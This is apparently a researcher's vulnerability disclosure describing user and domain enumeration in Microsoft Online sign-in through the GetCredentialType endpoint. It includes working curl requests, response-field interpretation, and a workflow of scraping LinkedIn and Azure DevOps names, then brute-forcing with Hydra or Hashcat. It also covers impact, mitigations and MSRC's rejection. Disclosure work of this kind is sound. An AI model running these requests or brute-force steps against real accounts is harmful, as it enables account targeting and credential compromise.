

# Vulnerability Disclosure: User Enumeration in Microsoft Online Authentication Service
Data da publicação: 11/05/2024 05:35PM
<hr>

[🇧🇷](../vulnerabilidade-enumeracao-usuarios-loginmicrosoftonline.md) | 🇺🇸

## Introduction
This document aims to describe the user enumeration vulnerability discovered in [Microsoft Online](https://login.microsoftonline.com/) 
authentication, which can be exploited both visually and programmatically in any application that integrates with the service.

## Exploitation
The attack vector stems from both the observation of the behavior of return messages (visual) and the structure of the 
response from the respective endpoint (programmatic).

### Requirements
Although the vulnerability is in the Microsoft Online authentication service, the following steps aim to demonstrate the 
exploitation briefly, in a controlled and secure environment, simulating the integration of the fictitious application 
`my-app.com`.

- Access the [Azure AD (Microsoft Entra ID)](https://learn.microsoft.com/en-us/entra/identity/authentication/overview-authentication) portal and register a new application through [App Registration](https://learn.microsoft.com/en-us/entra/identity-platform/quickstart-register-app?tabs=certificate#register-an-application);
- Choose the [Access Token](https://learn.microsoft.com/en-us/entra/identity-platform/access-tokens) method;
- Grant the `email` and `User.Read` permissions via [Microsoft Graph](https://developer.microsoft.com/en-us/graph/graph-explorer).

After registration, we obtain - _among other values omitted for brevity_ - the `appId` parameter, used in constructing the **url** 
that will redirect from `my-app.com` to `login.microsoftonline.com`, where authentication will occur:

```txt
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize
```

We should also include the `clientId` and `code` parameters, obtained during the backend flow of `my-app.com`:

```txt
?client_id={clientId}&response_type=code&code_challenge={code}
```

Finally, we complete with the fixed parameters:

```txt
&code_challenge_method=S256
&redirect_uri=https://my-app.com/success
&scope=https://graph.microsoft.com/email
&prompt=select_account
&sso_reload=true
```

In the final set, the **url** to be used by `my-app.com` will be:

```txt
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://my-app.com/success&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
```

### Visual Methodology
The **url** will take you to the application's authentication service (`appId`), customized for the requesting tenant (`clientId`), 
which will require access credentials. From the analysis of the **response pattern**, it is possible to determine if the user 
exists or not.

| Initial screen                                                                                                      | Enter invalid data                                                                                                  | Service confirms                                                                                                    | Correct domain, the message changes                                                                                 | Correct user, password is requested                                                                                 |
|---------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------|
|  |  |  |  |  |


### Programmatic Methodology
By inspecting the source code of the `login.microsoftonline.com` service and analyzing the network packets sent, we 
found the `GetCredentialType` endpoint. Extracting the request body, we obtain:

```
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'accept: application/json' \
--header 'accept-language: pt-BR,pt;q=0.7' \
--header 'canary: {canaryHash}' \
--header 'client-request-id: {requestGuid}' \
--header 'content-type: application/json; charset=UTF-8' \
--header 'cookie: brcap=0; ESTSSSOTILES=1; AADSSOTILES=1; x-ms-gateway-slice=estsfd; stsservicecookie=estsfd; AADSSO=NA|NoExtension; ESTSAUTHLIGHT=+58498593-a7a2-422b-84bd-ef0fb1c85b0d; CCState={cstateHash}' \
--header 'hpgact: 1800' \
--header 'hpgid: 1104' \
--header 'hpgrequestid: {hpgRequestGuid}' \
--header 'origin: https://login.microsoftonline.com' \
--header 'priority: u=1, i' \
--header 'referer: https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://my-app.com/success&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
--header 'sec-ch-ua: "Brave";v="125", "Chromium";v="125", "Not.A/Brand";v="24"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "Windows"' \
--header 'sec-fetch-dest: empty' \
--header 'sec-fetch-mode: cors' \
--header 'sec-fetch-site: same-origin' \
--header 'sec-gpc: 1' \
--header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
--data-raw '{"username":"abacate@avocado.com.br","isOtherIdpSupported":true,"checkPhones":false,"isRemoteNGCSupported":true,"isCookieBannerShown":false,"isFidoSupported":true,"originalRequest":"{originalRequestHash}","country":"BR","forceotclogin":false,"isExternalFederationDisallowed":false,"isRemoteConnectSupported":false,"federationFlags":0,"isSignup":false,"flowToken":"{flowToken}","isAccessPassSupported":true}'
```
Although the set of headers and parameters is extensive, suggesting secure handling regarding sending or origin, nothing 
is actually done with `requestGuid`, `cstateHash`, `hpgRequestGuid`, `originalRequestHash`, or `flowToken`. Considering 
that there is no verification or consistency of the object regarding its manipulation, we can remove them:

```txt
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'Content-Type: application/json' \
--header 'Cookie: fpc=Avu1jfhsb2hEhMRueZ1yZ9Q; stsservicecookie=estsfd; x-ms-gateway-slice=estsfd' \
--data-raw '{  
    "username": "abacate@avocado.com.br"
}'
```

Regardless of which format you use above, both will return the following structure:

```json
{
    "Username": "",
    "Display": "",
    "IfExistsResult": 0,
    "IsUnmanaged": false,
    "ThrottleStatus": 0,
    "Credentials": {},
    "DfpProperties": {},
    "EstsProperties": {},
    "IsSignupDisallowed": false,
    "apiCanary": ""
}
```

The `IfExistisResult` and `ThrottleStatus` fields respectively determine if the user exists and the resource status. 
This assertion is possible through the following behavioral observation:

- If **user** and **domain** <u>do not</u> exist, `IfExistisResult` and `ThrottleStatus` will be `1`;
- If **user** <u>does not</u> exist but the **domain** exists, `IfExistisResult` will be `1` and `ThrottleStatus` will be `0`;
- If **user** and **domain** exist, `IfExistisResult` and `ThrottleStatus` will be `0`;

Thus, we confirm for the second time that it is possible to identify users through the service.

_Note: There are other changes in the `json` that assist in identification but have been omitted for brevity._

### Expanded Methodology
Considering that the [Azure DevOps](https://azure.microsoft.com/en-us/products/devops) service also uses Microsoft Online, 
and its **URL** is accessible via `https://dev.azure.com/{organizationName}`, it is possible to scale the discovery through 
web scraping on a social network like LinkedIn to obtain the primary name of each company.

With the list ready, automate the discovery until you get an **HttpStatus** `200`:

```
https://dev.azure.com/mcdonalds
https://dev.azure.com/samsung
https://dev.azure.com/ibm
https://dev.azure.com/suaempresa
...
https://dev.azure.com/microsoft
```
Once the target is defined, simply apply any of the methodologies described in this document:

| User does not exist in the domain                                                                                   | User exists and is prompted for a password                                                                          |
|---------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------|
|  |  |

In addition to obvious names as demonstrated above (admin, infra, hr, contact...), we can perform another web scraping on 
LinkedIn, this time focusing on employees of the target company. From names and surnames, generate all combinations (including 
hyphens, underscores, or periods) using tools like **Crunch**. With the data set ready, let brute force do the rest using 
software like **John the Ripper**, **Hydra**, or **Hashcat**.

Users who do not have a second factor of security and use weak passwords will inevitably be subject to having their 
credentials compromised.

## Impact
This seemingly harmless information can significantly impact the organization's security, as the exposure of access 
credentials contributes to the increase and effectiveness of subsequent attacks, such as _**phishing**_, 
**social engineering**, and **brute force**.

### Phishing
An attack that seeks to steal your money or identity by tricking you into revealing personal information, such as credit 
card numbers, banking details, or passwords on sites that pretend to be legitimate. Cybercriminals often impersonate trusted 
companies, friends, or acquaintances in a fake email message that contains a link to a phishing site. (Source: [Microsoft Support](https://support.microsoft.com/en-us/windows/proteja-se-contra-phishing-0c7ea947-ba98-3bd9-7184-430e1f860a44)).

A subset of this practice is _spear phishing_, which involves the specialization of the attack where attackers conduct 
extensive research on the intended targets. This high level of personalization aims at specific individuals or companies, 
leading to financial fraud, stock price manipulation, espionage, or theft of confidential data for resale. It may also be 
designed to infect devices with malware. (Source: [Kaspersky Resource Center](https://www.kaspersky.com/resource-center/definitions/spear-phishing))

### Social Engineering
Social engineering attacks manipulate people's emotions and instincts in ways that reliably lead them to share information 
they shouldn't, download software they shouldn't, visit sites they shouldn't, send money to criminals, or make other mistakes 
that compromise their personal or organizational security. (Source: [IBM Think](https://www.ibm.com/topics/social-engineering)).

In addition to the aforementioned phishing and spear phishing, there are other types of social engineering attacks, 
including _baiting_ (tricking by curiosity), _tailgating_ (piggybacking on an unlocked device), _pretexting_ (the false 
digital samaritan), _quid pro quo_ (desirable but false services in exchange for information), _scareware_ (manipulation 
through fear), and _watering hole_ (infecting a real service).

### Brute Force
A brute force attack uses a trial-and-error method to guess login information or encryption keys. Attackers work through 
all possible combinations in hopes of hitting the correct one. (Source: [Kaspersky Resource Center](https://www.kaspersky.com/resource-center/definitions/brute-force-attack))

A subtype of this type of attack is known as _Password Spraying_, which involves exhaustively attempting to use the same 
password across multiple accounts before trying another one. Password spraying attacks tend to be effective because many 
users not only reuse the same passwords across different services but also often use simple, easily guessable passwords. 
(Source: [Kaspersky Resource Center](https://www.kaspersky.com/resource-center/definitions/what-is-password-spraying))

Although it may seem like searching for a "needle in a haystack," advancements in artificial intelligence (AI) and large 
language models (LLMs) optimize, accelerate, and scale attacks, bypassing captchas and adjusting attack frequency without 
human intervention.

The only place where human factors come into play is in password creation. The table below highlights the most commonly used 
passwords in United States in 2023:

| Posição | Senha     | Ocorrências |
|---------|-----------|-------------|
| 1º      | 123456    | 83.429      |
| 2º      | password  | 44.484      |
| 3º      | admin     | 39.940      |
| 4º      | 102030    | 28.034      |
| 5º      | UNKNOWN   | 14.564      |
| 7º      | 123456789 | 13.173      |
| 9º      | abc123    | 8360        |
| 11º     | Password1 | 5243        |
| 14º     | 1q2w3e4r  | 4364        |
| 16º     | shitbird  | 4230        |

Source: [Nordpass](https://nordpass.com/es/most-common-passwords-list/)

You can see more details about how quickly a password can be discovered in this article from [Hive Systems](https://www.hivesystems.com/blog/are-your-passwords-in-the-green).

<a href="../../../../images/aegis/divulgacao/microsoft/008-vulnerabilidade-enumeracao-usuarios-loginmicrosoftonline.png" target="_blank">
  
</a>

<br>
<br>

## Mitigation
To mitigate the user enumeration vulnerability, it's essential to implement robust security measures that make exploitation 
more difficult, such as:

- **Standardizing Error Messages**: Ensure that all error messages during the authentication process are uniform and do 
not provide hints about the validity of usernames. The same applies to response times of requests.


- **Login Attempt Limits**: Implement a policy to limit authentication attempts. After a predefined number of failed attempts, 
temporarily block the account or require a waiting period.


- **Access Monitoring and Logging**: Configure monitoring and auditing for all authentication attempts. Regularly review 
these logs to identify patterns of enumeration attacks.


- **Use of CAPTCHAs**: Add CAPTCHAs to the authentication process to hinder the automation of enumeration attacks.


- **Tamper-Resistance Checks**: Implement robust checks to ensure that requests cannot be exploited for tampering.

### Relevance
Robust access control policies, such as multi-factor authentication or _zero trust_, limit access for cybercriminals. 
However, the lack of uniform responses during access opens the door to user enumeration vulnerabilities, which are recognized 
risks by various security organizations.

- **OWASP (Open Web Application Security Project)**: Frequently mentioned in the [OWASP Top 10](https://owasp.org/www-project-top-ten/) 
and cited in the [Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html#authentication-responses), it is also present in the categories:
  - [A1:2021 - Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/);
  - [A7:2021 - Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/);
  - [A9:2017 - Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities).


- **NIST (National Institute of Standards and Technology)**: The practice is addressed in [NIST SP 800-63B: Digital Identity Guidelines](https://pages.nist.gov/800-63-3/sp800-63b.html), 
topic 8: _"Threats and Security Considerations"_.


- **ISO (International Organization for Standardization)**: Although it does not specifically mention user enumeration, the 
security guidelines of [ISO/IEC 27001](https://www.iso.org/standard/27001) and [ISO/IEC 27034](https://www.iso.org/standard/44378.html) emphasize the importance of protecting authentication information and adopting secure development practices.


- **SEI CERT (Software Engineering Institute CERT)**: The SEI CERT Coding Standards provide [10 secure coding practices](https://wiki.sei.cmu.edu/confluence/display/seccode/Top+10+Secure+Coding+Practices) 
to avoid various vulnerabilities. Notably, item 8: _"Practice defense in depth"_ emphasizes ensuring multiple layers of protection by combining techniques to reduce security gaps.


- **CVE (Common Vulnerabilities and Exposures)**: In addition to its base definition [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html), 
many well-known services and software, such as [WordPress](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487), [OpenSSH](https://nvd.nist.gov/vuln/detail/cve-2016-6210), and [GitLab](https://nvd.nist.gov/vuln/detail/cve-2021-4191), have been marked. Multiple user enumeration entries are [regularly cataloged](https://www.opencve.io/cve?cvss=&search=user+enumeration) in the CVE database.


- **NVD (National Vulnerability Database)**: Enriches a CVE and expands details with technical references, impact analysis, 
remediation guidance, and risk ratings (CVSS).


## Report
The discovery was properly reported to the [Microsoft Security Response Center (MSRC)](https://msrc.microsoft.com/) through 
the [Microsoft Bug Bounty Program](https://www.microsoft.com/en-us/msrc/bounty), following responsible disclosure guidelines 
in accordance with ISO/IEC 29147:2018 and the CERT Guide to Coordinated Vulnerability Disclosure, aiming to ensure proper 
mitigation and protection of potentially affected users. Since the event was not deemed a vulnerability, I am making the 
scenario public to align understanding on the contexts where the vulnerability mentioned here should be considered a risk.

### Identification
- **Identifier**: microsoft_bounty_1¹ (_external tracking ID_)
- **Category**: User Enumeration
- **Severity**: 8.8/High
- **[CVSS](https://www.first.org/cvss/calculator/4.0#CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N)**:
  ```
  CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N
  ```

_¹ Since the item was not considered a threat (even though it was reported twice), no CVE code was assigned._

### Timeline
- **Date of Discovery**: April 26, 2024
- **Date of Notification to MSRC**: April 27, 2024
- **Date of Analysis by MSRC**: June 29, 2024
- **Date of Conclusion by MSRC**: June 12, 2024

### Response Received
```txt
MSRC Email communication 12 de jun. de 2024, 22:31
Subject: RE: MSRC Case microsoft_bounty_1

Hello Raphael,

Thank you for submitting this issue to Microsoft. We appreciate the time taken to submit this report. Upon investigation, we have determined that this is not considered a security vulnerability for servicing. 

Please refer https://learn.microsoft.com/en-us/entra/fundamentals/users-default-permissions#restrict-member-users-default-permissions

As such this case is now closed.
Thank you for working with us and we look forward to more reports from you in the future!

Warm regards,
MSRC
```

The [referred link](https://learn.microsoft.com/en-us/entra/fundamentals/users-default-permissions#restrict-member-users-default-permissions) 
discusses access permissions between authenticated users and guests, with the intent of restricting access. However, it 
does not apply to the issue demonstrated in this document, as the vulnerability can be exploited freely.

To that end, I sent a second report on **08/09/2024** at **02:05PM**, demonstrating how to automate the discovery process. 
However, the response I received was:

```txt
MSRC Email communication 22 de ago. de 2024, 09:16
Subject: RE: MSRC microsoft_bounty_2

Hello

Thank you for reporting this to Microsoft. Upon investigation, we have determined that this issue does not constitute a security vulnerability that meets our bar, since this information is necessary for customized login interfaces intending to use custom domain/login experience, and this information poses limited risk to confidentiality, integrity or availability of a user or the service.

However, we have informed the team about this issue and they will continually assess the security of the service to keep our customers protected. 

As such, we are closing this case.
If you have any questions or concerns, please feel free to reach out.

Regards
MSRC
```

In other words, the possibility of user and domain enumeration was not considered a vulnerability, as the behavior is 
"expected," since it is characterized as a "standard applicable to the custom interface resource." Therefore, the information 
obtained through its exploitation presents a "limited risk."

## Conclusion
The discovery of this vulnerability in Microsoft Online's authentication service highlights the ongoing importance of 
security reviews and compliance with international standards. However, the failure to recognize it as a flaw raises the 
question of when a vulnerability should be treated as a risk.

Security companies that conduct penetration testing, such as [Tracker](https://trackerconsultoria.com.br/), [Desec](https://desecsecurity.com/), 
[HackerSec](https://hackersec.com), [Ravel](https://ravel.com.br/servico-de-pentest-teste-de-intrusao), 
[Kaspersky](https://www.kaspersky.com.br/enterprise-security/penetration-testing), [Tempest](https://www.tempest.com.br/), 
[e-Security](https://esecurity.com.br/pentest/), [Vantico](https://vantico.com.br/), or [Tivit](https://tivit.com/solucoes/cybersecurity/), 
follow industry standards, and therefore, Microsoft Online's authentication should also be subject to the same scrutiny.

If the vulnerability of user and domain enumeration is not applicable in this context, justified by the need for a 
"custom interface", what is the threshold that separates a proprietary authentication mechanism from an external provider 
when the same penetration test reveals a critical failure in one and overlooks it in the other?

## References
- **[ISO/IEC 27034-1:2011 - Application security](https://www.iso.org/standard/72311.html)**;

- **[CERT Guide to Coordinated Vulnerability Disclosure](https://insights.sei.cmu.edu/documents/1945/2017_003_001_503340.pdf)**;

- **[NVD (National Vulnerability Database)](https://nvd.nist.gov/vuln)**;

- **[CVSS (Common Vulnerability Scoring System) Calculator](https://www.first.org/cvss/calculator/4.0)**;

- **[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)**;

- **[NIST Special Publication 800-63B](https://pages.nist.gov/800-63-3/sp800-63b.html)**;